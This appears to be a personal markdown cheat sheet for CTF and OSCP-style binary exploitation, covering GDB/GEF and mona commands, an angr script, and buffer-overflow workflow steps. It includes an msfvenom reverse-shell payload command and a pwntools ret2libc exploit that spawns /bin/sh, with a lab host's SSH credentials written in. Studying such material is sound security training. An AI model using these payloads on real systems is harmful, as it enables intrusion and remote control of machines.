 # UltraPWN

https://www.youtube.com/playlist?list=PLt9cUwGw6CYHKBH5OoR8M2ELGlNlrgBKl
https://www.youtube.com/playlist?list=PLt9cUwGw6CYEmxx_3z1d-uT9zdEd58yOq
https://www.youtube.com/playlist?list=PLt9cUwGw6CYF6Kj19mBZpfhQPsRIC5vGl

Understand how https://github.com/xct/ropstar works to do it your self without automating or cheating


- better https://github.com/Crypto-Cat/CTF/blob/main/auto_ghidra.py

GDB Quick Commands
- disassemble: `disas <addr>`
- continue: `c`
- step: `s`
- step over: `n`
- finish function: `fin`
- dump memory: `x/20x <addr>`
- dump registers: `info registers`
- dump call stack: `bt`
- list breakpoints: `info break`
- memory mapping: `vmmap`
- heap infos: `heap chunks`,`print main_arena`
- show GOT: `print $_got()`
- pattern: `pattern create <n>`, `pattern search <offset>`
- shellcode: `shellcode search <arch>`, `shellcode get <num>`

```c
entry-break

```
`angr` for Kali Linux 
```bash
python3 -m venv myenv
source myenv/bin/activate
pip install angr
```
Use for binary Analysis
```python
import angr
import sys

# Author XCT from https://www.youtube.com/watch?v=UnZj5zzcBG4

# Use symbolic execution to explore all flow control possibilities of a program
# Then print out all the deadends of these explored states
def main(argv):
    binary = "CHANGE THIS"
    project = angr.Project(binary)
    init = project.factory.entry_state()
    simulation_manager = project.factory.simgr(init)
    simulation_manager.explore()
    for state in simulation_manager.deadended:
        print(state.posix.dumps(sys.stdin.fileno()))

if __name__ == '__main__':
    main(sys.argv)
```


gdb cheatsheet additions list
https://github.com/garyhooks/oscp/blob/master/Cheat_Sheets/Cheatsheet_GDB.txt


Gef ULTRA cheatsheet
```c
# Break at entry point
entry-break
# dump assemble code at the current point 
disassemble
# Set a breakpoint at a function call 
break $funcHandle.$funcHandle
# Set breakpoint at memory address
break *0x000133780085
run
```


Ascii transfers over Netcat won't work use a python script.

https://shell-storm.org/shellcode/index.html

#### Buffer Overflow Windows
```
!mona config -set workingfolder c:\mona\%p
!mona bytearray -b "\x00"
```

fuzzbof.py
```bash
msf-pattern_create -l $int
```

enumeip.py
```powershell
!mona findmsp -distance $int
# Right Click -> Copy full line of EIP
```
No mona:
```bash
msf-pattern_offset -q $eip_address 
```

enumbadchars.py
```powershell
# use brain see CPU 
# address to which the ESP register point
!mona compare -f C:\mona\$bin\bytearray.bin -a $address
# Collect and deduce bad chars, remember corrupt to next byte so double check with updated enumbadchars.py
```

`!mona jmp -r esp -cpb "$badchars"`
If need to:
`ctrl + g` go to `$esp_address`
`f2` breakpoint on `$esp_address`
Step into  `F7`

`msfvenom -p windows/shell_reverse_tcp -a x$arch LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b $badchars -f py -v shellcode`


#### Buffer Overflow Linux 
[guyinatuxedo](https://guyinatuxedo.github.io/index.html) [gef commands](https://hugsy.github.io/gef/commands/aliases/)

Dissemble 
`checksec`
`objdump -D $binary | grep -i $`
`gdb $binary`

```bash
gef> r # run binary
```
fuzzbof.py
```bash
gef> pattern create <size>
# copy and paste 
run <paste pattern at correct stage of the program>
# look at *sp register address 
gef> pattern search $string_in_rsp
# for stack bufferover flow note *ip register address 
info functions
# Check register
info register
x/100x $rsp
x/100x $rsp-$RECONINT
```


```bash
msf-pattern_create -l 100 | xsel -b 

msf-pattern_offset -l 100 -q $address
```
#### Binary exploitation

PWNTOOLs - beware this very binary heaven specific
```python
from pwn import *
import struct

context.terminal = ['tmux', 'new-window']
target = './pwn_me'
context.binary = target
binary = ELF(target)
libc = ELF("./libc.so.6")

ssh_host = '10.10.232.171'
ssh_user = 'guardian'
ssh_pass = 'GOg0esGrrr!'
ssh_port = 22

if args['SSH']:
    sh = ssh(host=ssh_host, user=ssh_user, password=ssh_pass, port=ssh_port)
    p = sh.run('/bin/bash')
    junk = p.recv(4096,timeout=2)
    p.sendline(target)
else:
    p = process(target,setuid=True)


p.recvline()
leak = p.recvline()[-11:].rstrip(b"\n")
system = int(leak[2:],16)
log.info(hex(system))
libc.address = system - libc.symbols['system']

buffer = b""
buffer += b"A"*32
buffer += p64(libc.symbols['system'])
buffer += p64(next(libc.search(b'/bin/sh\x00')))

gdb.attach(p, gdbscript='continue')
p.sendline(buffer)

p.interactive()

```

`ltrace`


Template Meta-gaming 
- https://notes.vulndev.io/wiki/redteam/binary-exploitation/templates
- https://notes.vulndev.io/wiki/redteam/templates
- https://github.com/nikosChalk/exploitation-training/blob/master/pwn-template.py
- https://notes.vulndev.io/wiki/redteam/binary-exploitation/templates


https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/07_reverse_engineering.md
```
(gdb) b main                           // sets breakpoint to main function
(gdb) b *0x5655792b                    // sets breakpoint on specific address
(gdb) run                              // starts debugging
(gdb) r                                // starts debugging
(gdb) r `python -c 'print "A"*200'`    // rerun the program with a specific parameter
(gdb) c                                // continue
(gdb) r Aa0Aa---snip---g5Ag            // run custom strings on a binary
(gdb) si                               // switch to instructions
(gdb) si enter                         // step-wise debugging
(gdb) x/s 0x555555556004               // x/s conversion
(gdb) p system                         // print memory address of system
(gdb) searchmem /bin/sh                // search within the binary
(gdb) disas main                       // disassemble main function
(gdb) b*0x080484ca                     // add a specific breakpoint
(gdb) x/100x $esp                      // getting EIP register
(gdb) x/100x $esp-400                  // locate in EIP register
(gdb) pattern create 48                // creates 48 character long pattern
(gdb) x/wx $rsp                        // finding rsp offset
(gdb) pattern search                   // finding pattern
(gdb) info functions <FUNCTION>        // getting function information
```


https://github.com/ChrisPritchard/ctf-writeups/blob/master/GDB-TIPS-AND-TRICKS.md


#### References

https://www.youtube.com/watch?v=wa3sMSdLyHw&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94
